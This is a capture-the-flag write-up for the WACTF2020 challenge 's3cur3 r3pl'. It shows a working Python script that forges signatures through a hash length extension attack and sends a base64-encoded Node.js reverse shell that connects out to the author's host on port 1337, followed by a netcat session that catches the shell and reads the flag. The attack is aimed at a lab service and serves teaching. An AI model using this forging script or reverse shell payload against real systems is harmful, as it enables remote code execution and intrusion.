

# s3cur3 r3pl | WACTF2020

## Problem
Gain remote code execution and read flag from flag.txt.  
Service: http://crypto-4 
  

  
## Solution
References:
- https://pequalsnp-team.github.io/cheatsheet/crypto-101
- https://en.wikipedia.org/wiki/Length_extension_attack
  
The page explains how the code is signed by concatentating the API key (the secret), together with some code which the user can input. This means of signing is vulnerable to a hash length extension attack in which the input to the hash can be extended to include new data, without needing to know what came before it.

```python
#!/usr/bin/env python3

import requests
from hashpumpy import hashpump
from base64 import b64decode, b64encode

# Example:
# https://ctftime.org/writeup/15069

originalData = 'ZnVuY3Rpb24gaGVsbG8obmFtZSkgewogIHJldHVybiAnSGVsbG8gJyArIG5hbWUgKyAnISc7Cn0KCmhlbGxvKCdXb3JsZCcpOyAvLyBzaG91bGQgcHJpbnQgJ0hlbGxvIFdvcmxkJw=='
originalSig = 'aaa8111b4871b48dc6c0ac4c33ef9e1b'
testData = b64decode('OwpoZWxsbygnSmFjaycpOw==')
rceData = b64decode('OwooZnVuY3Rpb24oKXsKdmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLApjcCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKSwKc2ggPSBjcC5zcGF3bigiL2Jpbi9zaCIsIFtdKTsKdmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7CmNsaWVudC5jb25uZWN0KDEzMzcsICIxMC4wLjM3LjM0IiwgZnVuY3Rpb24oKXsKY2xpZW50LnBpcGUoc2guc3RkaW4pOwpzaC5zdGRvdXQucGlwZShjbGllbnQpOwpzaC5zdGRlcnIucGlwZShjbGllbnQpOwp9KTsKcmV0dXJuIC9hLzsKfSkoKTs=')

def forge(keyLen, addedData=testData):
    newHash, newData = hashpump(originalSig, b64decode(originalData), addedData, keyLen)
    return newHash, b64encode(newData)

def postData(sig, code):
    resp = requests.post('http://crypto-4', json={'sig':sig, 'code':code})
    return resp.text

for i in range(50):
    forgedSig, forgedData = forge(i)
    ret = postData(forgedSig, forgedData)

    if 'invalid' not in ret:
        print(f'\n{ret}\nkeyLen: {i}')
        
        forgedSig, forgedData = forge(i, rceData)
        print(postData(forgedSig, forgedData))
        break
```

With this script I first figure out the length of the secret, and then create some signed code with a node.js reverse shell payload which will connect to my shellbox.

```bash
┌──(kali㉿kali)-[~/Desktop/WACTF/crypto4]
└─$ ./solve.py  
./solve.py:26: DeprecationWarning: PY_SSIZE_T_CLEAN will be required for '#' formats
  newHash, newData = hashpump(originalSig, b64decode(originalData), addedData, keyLen)

{"result":"Hello Jack!"}
keyLen: 37
{"result":{}}
```

Catch the reverse shell and get the flag.

```bash
shellbox:~$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 10.0.16.21 59671 received!
ls
flag.txt
index.js
node_modules
package-lock.json
package.json
public
views
cat flag.txt
WACTF{76656ebc7cc6d6267529456ad9179672}
```